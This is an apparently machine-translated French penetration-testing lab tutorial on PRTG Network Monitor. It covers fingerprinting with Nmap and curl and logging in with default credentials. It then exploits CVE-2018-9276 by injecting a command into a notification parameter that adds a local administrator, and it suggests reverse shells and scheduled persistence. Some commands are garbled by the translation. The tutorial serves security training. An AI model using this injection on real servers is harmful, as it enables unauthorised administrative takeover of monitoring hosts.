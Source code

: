 Moniteur réseau PRTG
====================

* * * * *

[PRTG Network Monitor](https://www.paessler.com/prtg) est un logiciel de surveillance de réseau sans agent. Il peut être utilisé pour surveiller l'utilisation de la bande passante, la disponibilité et collecter des statistiques à partir de divers hôtes, notamment des routeurs, des commutateurs, des serveurs, etc. La première version de PRTG est sortie en 2003. En 2015, une version gratuite de PRTG est sortie, limitée à 100 capteurs pouvant être utilisés pour surveiller jusqu'à 20 hôtes. Il fonctionne avec un mode de découverte automatique pour analyser les zones d'un réseau et créer une liste de périphériques. Une fois cette liste créée, elle peut collecter des informations supplémentaires à partir des périphériques détectés à l'aide de protocoles tels que ICMP, SNMP, WMI, NetFlow, etc. Les appareils peuvent également communiquer avec l'outil via une API REST. Le logiciel fonctionne entièrement à partir d'un site Web basé sur AJAX, mais il existe une application de bureau disponible pour Windows, Linux et macOS. Quelques données intéressantes sur PRTG :

- Selon l'entreprise, il est utilisé par 300 000 utilisateurs dans le monde
- La société qui fabrique l'outil, Paessler, crée des solutions de surveillance depuis 1997
- Certaines organisations qui utilisent PRTG pour surveiller leurs réseaux incluent l'aéroport international de Naples, Virginia Tech, 7-Eleven et [plus](https://www.paessler.com/company/casestudies)

Au fil des ans, PRTG a souffert de [26 vulnérabilités](https://www.cvedetails.com/vulnerability-list/vendor_id-5034/product_id-35656/Paessler-Prtg-Network-Monitor.html) qui se sont vu attribuer des CVE. Parmi tous ceux-ci, seuls quatre ont des PoC d'exploit publics faciles à trouver, deux scripts intersites (XSS), un déni de service et une vulnérabilité d'injection de commande authentifiée que nous aborderons dans cette section. Il est rare de voir PRTG exposé à l'extérieur, mais nous avons souvent rencontré PRTG lors de tests d'intrusion internes. La boîte de publication hebdomadaire HTB [Netmon](https://0xdf.gitlab.io/2019/06/29/htb-netmon.html) présente PRTG.

* * * * *

Découverte/empreinte/énumération
----------------------------------

On peut rapidement découvrir PRTG à partir d'un scan Nmap. Il se trouve généralement sur les ports Web courants tels que 80, 443 ou 8080. Il est possible de modifier le port de l'interface Web dans la section Configuration lorsque vous êtes connecté en tant qu'administrateur.

```
dsgsec@htb[/htb]$ sudo nmap -sV -p- --open -T4 10.129.201.50

À partir de Nmap 7.80 ( https://nmap.org ) au 2021-09-22 15:41 EDT
Statistiques : 0:00:00 écoulé ; 0 hôtes terminés (1 up), 1 en cours d'analyse furtive SYN
Synchronisation de l'analyse furtive SYN : environ 0,06 % effectué
Rapport d'analyse Nmap pour 10.129.201.50
L'hôte est actif (latence de 0,11 s).
Non illustré : 65492 ports fermés, 24 ports filtrés
Certains ports fermés peuvent être signalés comme filtrés en raison de --defeat-rst-ratelimit
VERSION SERVICE À L'ÉTAT DU PORT
80/tcp ouvert http Microsoft IIS httpd 10.0
135/tcp ouvert msrpc Microsoft Windows RPC
139/tcp ouvert netbios-ssn Microsoft Windows netbios-ssn
445/tcp ouvrir microsoft-ds ?
3389/tcp open ms-wbt-server Microsoft Terminal Services
5357/tcp ouvert http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
5985/tcp ouvert http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8000/tcp ouvrir ssl/http Splunkd httpd
8080/tcp open http Indy httpd 17.3.33.2830 (moniteur de bande passante Paessler PRTG)
8089/tcp ouvrir ssl/http Splunkd httpd
47001/tcp ouvert http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp ouvrir msrpc Microsoft Windows RPC
49665/tcp ouvrir msrpc Microsoft Windows RPC
49666/tcp ouvrir msrpc Microsoft Windows RPC
49667/tcp ouvrir msrpc Microsoft Windows RPC
49668/tcp ouvrir msrpc Microsoft Windows RPC
49669/tcp ouvrir msrpc Microsoft Windows RPC
49676/tcp ouvrir msrpc Microsoft Windows RPC
49677/tcp ouvrir msrpc Microsoft Windows RPC
Informations sur le service : système d'exploitation : Windows ; CPE : cpe:/o:microsoft:windows

Détection de service effectuée. Veuillez signaler tout résultat incorrect sur https://nmap.org/submit/ .
Nmap terminé : 1 adresse IP (1 hôte actif) scannée en 97,17 secondes

```

À partir de l'analyse Nmap ci-dessus, nous pouvons voir le service `Indy httpd 17.3.33.2830 (Moniteur de bande passante Paessler PRTG)` détecté sur le port 8080.

PRTG apparaît également dans l'analyse EyeWitness que nous avons effectuée précédemment. Ici, nous pouvons voir qu'EyeWitness répertorie les identifiants par défaut `prtgadmin:prtgadmin`. Ils sont généralement pré-remplis sur la page de connexion, et nous les retrouvons souvent inchangés. Les scanners de vulnérabilité tels que Nessus disposent également de [plugins](https://www.tenable.com/plugins/nessus/51874) qui détectent la présence de PRTG.

![image](https://academy.hackthebox.com/storage/modules/113/prtg_eyewitness.png)

Une fois que nous avons découvert PRTG, nous pouvons confirmer en accédant à l'URL et la page de connexion s'affiche.

![](https://academy.hackthebox.com/storage/modules/113/prtg_login.png)

D'après l'énumération que nous avons effectuée jusqu'à présent, il semble qu'il s'agisse de la version PRTG `17.3.33.2830` et est probablement vulnérable à [CVE-2018-9276](https://nvd.nist.gov/vuln/detail/CVE-2018- 9276) qui est une injection de commande authentifiée dans la console Web PRTG System Administrator pour PRTG Network Monitor avant la version 18.2.39. Sur la base de la version rapportée par Nmap, nous pouvons supposer que nous avons affaire à une version vulnérable. En utilisant `cURL` nous pouvons voir que le numéro de version est bien `17.3.33.283`.

```
dsgsec@htb[/htb]$ curl -s http://10.129.201.50:8080/index.htm -A "Mozilla/5.0 (compatible ; MSIE 7.01 ; Windows NT 5.0)" | grep version

   <link rel="stylesheet" type="text/css" href="/css/prtgmini.css?prtgversion=17.3.33.2830__" media="impression,écran,projection" />
<div><h3><a target="_blank" href="https://blog.paessler.com/new-prtg-release-21.3.70-with-new-azure-hpe-and-redfish-sensors" >Nouvelle version 21.3.70 de PRTG avec de nouveaux capteurs Azure, HPE et Redfish</a></h3><p>Il y a peu de temps, je vous ai présenté la version 21.3.69 de PRTG, avec un tas de nouveaux capteurs, et maintenant la prochaine version est prête à être installée. Et cette version est également livrée avec de toutes nouvelles choses !</p></div>
     <span class="prtgversion">&nbsp;PRTG Network Monitor 17.3.33.2830 </span>

```

Notre première tentative de connexion avec les informations d'identification par défaut échoue, mais quelques tentatives plus tard, nous sommes avec `prtgadmin:Password123`.

![](https://academy.hackthebox.com/storage/modules/113/prtg_logged_in.png)

* * * * *

Tirer parti des vulnérabilités connues
--------------------------------

Une fois connecté, nous pouvons explorer un peu, mais nous savons que cela est probablement vulnérable à une faille d'injection de commande, alors allons-y. Cet excellent [article de blog](https://www.codewatch.org/blog/?p=453) par la personne qui a découvert cette faille fait un excellent travail pour parcourir le processus de découverte initial et comment il l'a découverte. Lors de la création d'une nouvelle notification, le champ `Paramètre` est transmis directement dans un script PowerShell sans aucun type de nettoyage des entrées.

Pour commencer, passez la souris sur `Configuration` en haut à droite, puis sur le menu `Paramètres du compte` et enfin cliquez sur `Notifications`.

![](https://academy.hackthebox.com/storage/modules/113/prtg_notifications.png)

Cliquez ensuite sur `Ajouter une nouvelle notification`.

![](https://academy.hackthebox.com/storage/modules/113/prtg_add.png)

Donnez un nom à la notification, faites défiler vers le bas et cochez la case à côté de "EXÉCUTER LE PROGRAMME". Sous `Program File`, sélectionnez `Demo exe notification - outfile.ps1` dans le menu déroulant. Enfin, dans le champ paramètre, saisissez une commande. Pour nos besoins, nous allons ajouter un nouvel utilisateur administrateur local en saisissant `test.txt;net user prtgadm1 Pwn3d_by_PRTG ! /add;net administrateurs du groupe local prtgadm1 /add`. Lors d'une évaluation réelle, nous pouvons vouloir faire quelque chose qui ne change pas le système, comme obtenir une coque inversée ou une connexion à notre C2 préféré. Enfin, cliquez sur le bouton `Enregistrer` .

![image](https://academy.hackthebox.com/storage/modules/113/prtg_execute.png)

Après avoir cliqué sur `Enregistrer`, nous serons redirigés vers la page `Notifications` et verrons notre nouvelle notification nommée `pwn` dans la liste.

![](https://academy.hackthebox.com/storage/modules/113/prtg_pwn.png)

Maintenant, nous aurions pu planifier l'exécution de la notification (et exécuter notre commande) ultérieurement lors de sa configuration. Cela pourrait s'avérer utile en tant que mécanisme de persistance lors d'un engagement à long terme et mérite d'être noté. Les horaires peuvent être modifiés dans le menu des paramètres du compte si nous voulons le configurer pour qu'il s'exécute à une heure précise chaque jour pour récupérer notre connexion ou quelque chose de cette nature. À ce stade, il ne vous reste plus qu'à cliquer sur le bouton `Test` pour exécuter notre notification et exécuter la commande pour ajouter un utilisateur administrateur local. Après avoir cliqué sur `Tester` , une fenêtre contextuelle s'affiche : `La notification EXE est en file d'attente`. Si nous recevons un message d'erreur ici, nous pouvons revenir en arrière et revérifier les paramètres de notification.

Puisqu'il s'agit d'une exécution de commande aveugle, nous n'obtiendrons aucun retour, nous devrons donc soit vérifier notre écouteur pour une connexion en retour, soit, dans notre cas, vérifier si nous pouvons nous authentifier auprès de l'hôte en tant qu'administrateur local. . Nous pouvons utiliser `CrackMapExec` pour confirmer l'accès de l'administrateur local. Nous pourrions également essayer de RDP à la boîte, accéder via WinRM ou utiliser un outil tel que [evil-winrm](https://github.com/Hackplayers/evil-winrm) ou quelque chose de [impacket](https: //github.com/SecureAuthCorp/impacket) tel que `wmiexec.py` ou `psexec.py`.

```
dsgsec@htb[/htb]$ sudo crackmapexec smb 10.129.201.50 -u prtgadm1 -p Pwn3d_by_PRTG !

SMB 10.129.201.50 445 APP03 [*] Windows 10.0 Build 17763 (nom : APP03) (domaine : APP03) (signature : Faux) (SMBv1 : Faux)
PME 10.129.201.50 445 APP03 [+] APP03\prtgadm1:Pwn3d_by_PRTG ! (Pwn3d !)

```

Et nous confirmons l'accès administrateur local sur la cible ! Parcourez l'exemple et reproduisez vous-même toutes les étapes sur le système cible. Mettez-vous au défi d'exploiter également la vulnérabilité d'injection de commande pour obtenir une connexion shell inversée à partir de la cible.

* * * * *

À partir de
-------

Maintenant que nous avons couvert Splunk et PRTG, passons à autre chose et discutons de certains outils courants de gestion du service client et de gestion de la configuration et voyons comment nous pouvons en abuser lors de nos engagements.